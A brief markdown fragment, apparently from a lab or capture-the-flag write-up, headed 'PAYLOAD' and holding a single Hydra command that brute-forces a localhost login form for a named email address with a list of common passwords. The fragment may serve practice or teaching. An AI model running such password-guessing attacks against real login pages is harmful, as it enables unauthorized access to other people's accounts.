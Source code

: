 ## PAYLOAD

> ### hydra -l sict.ccsclub@gmail.com -P 1000-most-common-passwords.txt -s 9000 localhost http-post-form "/login.php:email=sict.ccsclub@gmail.com&pass=^PASS^:F=error"